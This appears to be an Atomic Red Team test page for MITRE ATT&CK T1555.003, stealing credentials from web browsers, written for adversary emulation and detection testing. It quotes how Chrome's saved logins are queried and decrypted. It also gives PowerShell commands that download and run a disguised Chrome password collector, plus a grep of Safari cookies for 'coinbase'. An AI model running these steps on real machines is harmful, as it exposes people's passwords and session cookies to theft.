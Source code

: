 # T1555.003 - Credentials from Web Browsers
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1555.003)
<blockquote>Adversaries may acquire credentials from web browsers by reading files specific to the target browser.(Citation: Talos Olympic Destroyer 2018) Web browsers commonly save credentials such as website usernames and passwords so that they do not need to be entered manually in the future. Web browsers typically store the credentials in an encrypted format within a credential store; however, methods exist to extract plaintext credentials from web browsers.

For example, on Windows systems, encrypted credentials may be obtained from Google Chrome by reading a database file, <code>AppData\Local\Google\Chrome\User Data\Default\Login Data</code> and executing a SQL query: <code>SELECT action_url, username_value, password_value FROM logins;</code>. The plaintext password can then be obtained by passing the encrypted credentials to the Windows API function <code>CryptUnprotectData</code>, which uses the victim’s cached logon credentials as the decryption key. (Citation: Microsoft CryptUnprotectData ‎April 2018)
 
Adversaries have executed similar procedures for common web browsers such as FireFox, Safari, Edge, etc. (Citation: Proofpoint Vega Credential Stealer May 2018)(Citation: FireEye HawkEye Malware July 2017)

Adversaries may also acquire credentials by searching web browser process memory for patterns that commonly match credentials.(Citation: GitHub Mimikittenz July 2016)

After acquiring credentials from web browsers, adversaries may attempt to recycle the credentials across different systems and/or accounts in order to expand access. This can result in significantly furthering an adversary's objective in cases where credentials gained from web browsers overlap with privileged accounts (e.g. domain administrator).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Run Chrome-password Collector](#atomic-test-1---run-chrome-password-collector)

- [Atomic Test #2 - Search macOS Safari Cookies](#atomic-test-2---search-macos-safari-cookies)


<br/>

## Atomic Test #1 - Run Chrome-password Collector
A modified sysinternals suite will be downloaded and staged. The Chrome-password collector, renamed accesschk.exe, will then be executed from #{file_path}.

Successful execution will produce stdout message stating "Copying db ... passwordsDB DB Opened. statement prepare DB connection closed properly". Upon completion, final output will be a file modification of $env:TEMP\sysinternals\passwordsdb.

Adapted from [MITRE ATTACK Evals](https://github.com/mitre-attack/attack-arsenal/blob/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/data/abilities/credential-access/e7cab9bb-3e3a-4d93-99cc-3593c1dc8c6d.yml)

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_path | File path for modified Sysinternals | String | $env:TEMP|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location -path "#{file_path}\Sysinternals";
./accesschk.exe -accepteula .;
```

#### Cleanup Commands:
```powershell
Remove-Item #{file_path}\Sysinternals -Force -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Modified Sysinternals must be located at #{file_path}
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}\SysInternals) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "#{file_path}\Modified-SysInternalsSuite.zip"
Expand-Archive #{file_path}\Modified-SysInternalsSuite.zip #{file_path}\sysinternals -Force
Remove-Item #{file_path}\Modified-SysInternalsSuite.zip -Force
```




<br/>
<br/>

## Atomic Test #2 - Search macOS Safari Cookies
This test uses `grep` to search a macOS Safari binaryCookies file for specified values. This was used by CookieMiner malware.

Upon successful execution, MacOS shell will cd to `~/Libraries/Cookies` and grep for `Cookies.binarycookies`.

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| search_string | String to search Safari cookies to find. | string | coinbase|


#### Attack Commands: Run with `sh`! 


```sh
cd ~/Library/Cookies
grep -q "#{search_string}" "Cookies.binarycookies"
```






<br/>
